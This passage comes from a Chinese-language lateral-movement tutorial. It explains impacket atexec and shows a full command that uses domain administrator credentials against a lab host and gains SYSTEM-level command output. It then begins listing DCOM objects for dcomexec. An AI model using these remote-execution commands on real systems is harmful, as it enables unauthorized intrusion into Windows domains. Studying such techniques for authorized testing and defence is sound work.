 ```powershell
C:\>whoami
sec\administrator

C:\>exit

(base) C:\root>

```

# 四、atexec
## 1、原理
远程调用对方主机的任务计划程序创建一个定时任务，然后通过手动触发该定时任务将执行结果写入文本中，再利用smb共享去读取执行结果。

## 2、条件
（1）端口号，139执行命令，445读取回显

```plain
┌──(root㉿kali)-[~]
└─# impacket-atexec sec/administrator:"Az123456@"@192.168.30.2 whoami
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[!] This will work ONLY on Windows >= Vista
[*] Creating task \aGbvCMOL
[*] Running task \aGbvCMOL
[*] Deleting task \aGbvCMOL
[*] Attempting to read ADMIN$\Temp\aGbvCMOL.tmp
[*] Attempting to read ADMIN$\Temp\aGbvCMOL.tmp
nt authority\system
```

注：atexec的执行用户为目标机器的system用户，尽管用了域管账号。

# 五、dcomexec
使用DCOM去远程调用执行命令，有条件限制：
<font style="color:rgb(51, 51, 51);">1、ShellWindows</font>

<font style="color:rgb(51, 51, 51);">适用windows 7, Windows 10, Windows Server 2012R2。</font>

<font style="color:rgb(51, 51, 51);">CLSID为：9BA05972-F6A8-11CF-A442-00A0C90A8F39</font>

<font style="color:rgb(51, 51, 51);"></font>

<font style="color:rgb(51, 51, 51);">2、ShellBrowserWindow</font>

<font style="color:rgb(51, 51, 51);">适用Windows 10, Windows Server 2012R2。</font>

<font style="color:rgb(51, 51, 51);">CLSID为：C08AFD90-F2A1-11D1-8455-00A0C91F3880</font>

<font style="color:rgb(51, 51, 51);"></font>

<font style="color:rgb(51, 51, 51);">3、MMC20</font>
